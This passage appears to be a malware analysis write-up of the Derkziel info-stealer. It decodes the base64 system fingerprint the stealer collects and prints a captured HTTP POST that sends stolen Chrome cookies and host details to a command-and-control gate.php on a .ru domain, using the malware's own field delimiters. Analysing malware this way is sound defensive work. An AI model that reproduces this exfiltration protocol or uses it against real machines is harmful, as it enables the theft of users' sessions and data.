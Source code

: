 
    [0x100001058]> ?b64- TGFuZ3VhZ2U6IEVuZ2xpc2ggKFVuaXRlZCBTdGF0ZXMpDQpSZXNvbHV0aW9uOiAxMDI0eDc2OA0KVXB0aW1lOiAwIERheXMgMCBIb3VyIDcgTWludXRlcyAxMiBTZWNvbmRzDQpWaWRlbyBDYXJkOiBTdGFuZGFyZCBWR0EgR3JhcGhpY3MgQWRhcHRlcg0KUkRQREQgQ2hhaW5lZCBERA0KUkRQIEVuY29kZXIgTWlycm9yIERyaXZlcg0KUkRQIFJlZmxlY3RvciBEaXNwbGF5IERyaXZlcg0K

    Language: English (United States)
    Resolution: 1024x768
    Uptime: 0 Days 0 Hour 7 Minutes 12 Seconds
    Video Card: Standard VGA Graphics Adapter
    RDPDD Chained DD
    RDP Encoder Mirror Driver
    RDP Reflector Display Driver

Derkziel Version 1.0 used base64 for encoding the payload. This version use base64 too but just for sending some information. On version 1.0 it was encoded inside the encoded payload.

After this, Derkziel sends the cookies obtained from different browsers. In this case, this was stolen from Chrome:

`enter code here`POST /admin/user0000002/gate.php HTTP/1.1
Host: fuckingyoursister.ru
User-Agent: Uploador
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Type: multipart/form-data; boundary=---------------------------282861610524488
Connection: close
Content-Length: 2133

    -----------------------------282861610524488
    Content-Disposition: form-data; name="data"; filename="derkziel.txt"
    Content-Type: application/octet-stream


    {#!DRZ!}0000000{!DRZ!#}MLWRE-VM{!}DRZ{!}Sarah Connor{!}DRZ{!}Windows 7 Ultimate{!}DRZ{!}64{!}DRZ{!}1{!}DRZ{!}-1617007100{!}DRZ{!}{#!DRZ!}0000022{!DRZ!#}TGFuZ3VhZ2U6IEVuZ2xpc2ggKFVuaXRlZCBTdGF0ZXMpDQpSZXNvbHV0aW9uOiAxNDQweDgzMA0KVXB0aW1lOiAwIERheXMgNCBIb3VyIDM4IE1pbnV0ZXMgNTkgU2Vjb25kcw0KVmlkZW8gQ2FyZDogVmlydHVhbEJveCBHcmFwaGljcyBBZGFwdGVyDQpSRFBERCBDaGFpbmVkIEREDQpSRFAgRW5jb2RlciBNaXJyb3IgRHJpdmVyDQpSRFAgUmVmbGVjdG9yIERpc3BsYXkgRHJpdmVyDQo={#!DRZ!}0000018{!DRZ!#}<filedata>  {
        "domain": ".youtube.com",
        "hostOnly": false,
        "name": "PREF",
        "path": "/",
        "session": false,
        "value": "f1=50000000"
      },
      {
        "domain": ".youtube.com",
        "hostOnly": false,
        "name": "VISITOR_INFO1_LIVE",
        "path": "/",
        "session": false,
        "value": "LlKscMaIefE"
      },
    <!filedata>
    -----------------------------282861610524488--
